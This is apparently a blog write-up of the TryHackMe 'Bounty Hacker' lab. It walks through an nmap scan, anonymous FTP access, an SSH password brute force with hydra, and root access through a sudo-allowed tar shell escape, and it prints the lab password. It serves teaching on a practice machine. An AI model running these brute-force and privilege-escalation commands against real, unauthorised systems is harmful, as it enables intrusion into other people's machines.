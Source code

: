 ```yaml
---
title: TryHackMe - Bounty Hacker
layout: post
categories:
- TryHackMe
tag:
- linux,
- tar,
- privesc
image: "/assets/img/bounty-hacker.jpeg"
imag_alt: bounty-hacker
---
```


You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!. 

Let's start.

<br>

## 1. Living up to the title. 

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

<br>

### 1.1 Deploy the machine. 

### 1.2 Find open ports on the machine

Let's do a nmap scan first.

```
$ nmap -sSCV 10.10.80.114
```

![nmap](/assets/img/tryhackme/bounty-hacker/nmap.png)

Three ports are open. These are **`21/tcp FTP, 22/tcp SSH, and 80/tcp HTTP`**. 


But first, let's check the website running on port 80. 
Here is a page like this.

![home](/assets/img/tryhackme/bounty-hacker/home.png)

I've been browsing this site  but haven't found anything remarkable. 

We don't have anything on website . Let's run a gobuster scan and see what we can find. 
I couldn't find anything.

### 1.3 Who wrote the task list? 

We see anonymous FTP login is allowed. So we login to the FTP server.

```
$ ftp anonymous@10.10.231.70
```

![ftp](/assets/img/tryhackme/bounty-hacker/ftp.png)

We see two files here. One of them is **`locks.txt`** and the other is **`task.txt`**. Let's get this file on our machine.

```
$ get locks.txt
$ get task.txt
```

Let's take a look at what is inside these files.

locks.txt : This file is a password list. 
  
  - ![locks](/assets/img/tryhackme/bounty-hacker/locks.png)

task.txt : This file is Lin's notes.

  - ![task](/assets/img/tryhackme/bounty-hacker/task.png)

Now, we have a username and list of passwords that we can use to ssh brute force.

**`Answer: lin`**

<br>

### 1.4 What service can you bruteforce with the text file found?

**`Answer: ssh`**

<br>

### 1.5 What is the users password?  

Let's do ssh brute force.

```
$ hydra -l lin -P locks.txt 10.10.231.70 -t 4 ssh
```

![hydra](/assets/img/tryhackme/bounty-hacker/hydra.png)

**`Answer: RedDr4gonSynd1cat3`**

<br>

### 1.6 user.txt

We found Lin's ssh password. Let's login to ssh.

```
$ ssh lin@10.10.231.70
```

![sshin](/assets/img/tryhackme/bounty-hacker/sshin.png)

Now we can reach the user flag. Let's get it.

![user-flag](/assets/img/tryhackme/bounty-hacker/user-flag.png)

<br>

### 1.6 root.txt 

Now, we need privilege escalation. So, I try the first **`sudo -l`** command. I entered the password and here it is.

![sudo](/assets/img/tryhackme/bounty-hacker/sudo.png)

As far as I can see, we can get root privileges using tar. I'm looking at [gtfobins](https://gtfobins.github.io/gtfobins/tar/). and we found this.

![gtfobins](/assets/img/tryhackme/bounty-hacker/gtfobins.png)

```
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh 
```

And we got root privilege. Now we can get to the root flag. Let's get it.

![root-flag](/assets/img/tryhackme/bounty-hacker/root-flag.png)


<br>

---

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
